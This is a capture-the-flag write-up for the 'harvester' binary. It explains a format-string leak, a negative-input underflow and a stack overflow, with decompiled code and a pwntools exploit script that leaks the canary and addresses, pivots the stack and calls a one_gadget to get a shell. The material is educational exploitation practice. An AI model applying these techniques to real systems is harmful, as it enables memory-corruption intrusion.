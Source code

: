 # harvester

This was 4th binary in the challenge section named harvester.

# Vulerability

This binary had all protections enabled as in NX, PIE, RELRO and Canary. So, from a clear point of view at first, it seemed a bit hard but when we check the functions that were being called, we see a FSB in the `fight()` function and a stack overflow vulnnerability in the `stare()` function, but there were few restrictions:-

* First one was that the only 5 bytes can be printed with the vulnerable `printf` call, implying at best, we can only have leak from the stack,
* Second was, in order to get to the `stare()` function to trigger the stack overflow vulnerability we have to make the `pie` which was global variable to 22.
* One of the catch was `check_pie` function was being called depending on the functionality we trigger to check if `pie` does not exceed the value of 15, so we have to go by that.

The `fight` function:-

```C
unsigned __int64 fight()
{
  __int64 buf[5]; // [rsp+0h] [rbp-30h] BYREF
  unsigned __int64 v2; // [rsp+28h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  buf[0] = 0LL;
  buf[1] = 0LL;
  buf[2] = 0LL;
  buf[3] = 0LL;
  printf("\x1B[1;36m");
  printstr("\nChoose weapon:\n");
  printstr(&unk_1138);
  read(0, buf, 5uLL);
  printstr("\nYour choice is: ");
  printf((const char *)buf);
  printf("\x1B[1;31m");
  printstr("\nYou are not strong enough to fight yet.\n");
  return __readfsqword(0x28u) ^ v2;
}
```

The bug is `prinf((const char *)buf);` and we can only give `5` bytes at most to print, so we had no arbitrary writes.

Then, we had this `stare` function which propose a vulnerable `read` call but only if the `pie` == 21, at the time of the `stare` call, so during the check, it gets incremented and be of the value 22.

```C
unsigned __int64 stare()
{
  char buf[40]; // [rsp+0h] [rbp-30h] BYREF
  unsigned __int64 v2; // [rsp+28h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("\x1B[1;36m");
  printstr("\nYou try to find its weakness, but it seems invincible..");
  printstr("\nLooking around, you see something inside a bush.");
  printf("\x1B[1;32m");
  printstr(&unk_129A);
  if ( ++pie == 22 )
  {
    printf("\x1B[1;32m");
    printstr("\nYou also notice that if the Harvester eats too many pies, it falls asleep.");
    printstr("\nDo you want to feed it?\n> ");
    read(0, buf, 0x40uLL);
    printf("\x1B[1;31m");
    printstr("\nThis did not work as planned..\n");
  }
  return __readfsqword(0x28u) ^ v2;
}
```

`inventory()` function allow us to subtract a certain value from the value of `pie` which by default was given the value of `10.`

```C
unsigned __int64 inventory()
{
  int v1; // [rsp+0h] [rbp-10h] BYREF
  char buf[3]; // [rsp+5h] [rbp-Bh] BYREF
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v1 = 0;
  show_pies((unsigned int)pie);
  printstr("\nDo you want to drop some? (y/n)\n> ");
  read(0, buf, 2uLL);
  if ( buf[0] == 121 )
  {
    printstr("\nHow many do you want to drop?\n> ");
    __isoc99_scanf("%d", &v1);
    pie -= v1;
    if ( pie <= 0 )
    {
      printstr(&unk_1205);
      exit(1);
    }
    show_pies((unsigned int)pie);
  }
  return __readfsqword(0x28u) ^ v3;
}
```

# Exploitation

Exploitation was rather simple, I belive, it was to make leak via the `fight()` function, we first leak the canary, followed by elf and libc address leak.

```py
fight("%11$p")
p.recvline()
p.recvuntil(": ")
canary = int(p.recv(18), 16)
fight("%20$p")
p.recvline()
p.recvuntil(": ")
elf.address = int(p.recv(14), 16) - 0x1000
fight("%21$p")
p.recvline()
p.recvuntil(": ")
libc.address = int(p.recv(14), 16) - libc.symbols['__libc_start_main'] - 0xe7


log.info(f"CANARY:   {hex(canary)}")
log.info(f"ELF   :   {hex(elf.address)}")
log.info(f"LIBC  :   {hex(libc.address)}")
```

Then, we call the `inventory` and give the value `-11` such that when subtraction will be done it'll make the value of `pie` to 21.

```py
>>> 10 - (-11)
>>> 22
```

```py

def inventory():
	p.sendlineafter("> ", "2")
	p.sendlineafter("> ", "y")
	p.sendlineafter("> ", "-11")

[..snip..]

inventory()
```

Then, it was just again the ret2libc, but since the `read` call in the `stare` function does not accept more than `0x40` bytes and the RIP offset was already 56, we only get to make use of the `one_gadget` or perform the stack pivot of some sort, so at first all the `one_gadget` failed probably because of unsatisfied constraints. So, what I did was, make a call to the 

```r
   0x0000000000000dcb <+160>:	lea    rax,[rbp-0x30]
   0x0000000000000dcf <+164>:	mov    edx,0x40
   0x0000000000000dd4 <+169>:	mov    rsi,rax
   0x0000000000000dd7 <+172>:	mov    edi,0x0

```

`base + 0xdcb` was called and the `rbp` pointed to base address, then executing `one_gadget` made it work and we get the flag.

```py
p.sendlineafter("> ", "3")

payload = b"A"*40
payload += p64(canary)
payload += p64(elf.bss() + 0x330)
payload += p64(elf.symbols['stare'] + 0xa0)

p.sendafter("> ", payload)
payload = b"A"*40
payload += p64(canary)
payload += p64(0)
payload += p64(libc.address + 0x10a41c)


p.send(payload)
p.interactive()	
```

Flag: `CHTB{h4rv35t3r_15_ju5t_4_b1g_c4n4ry}`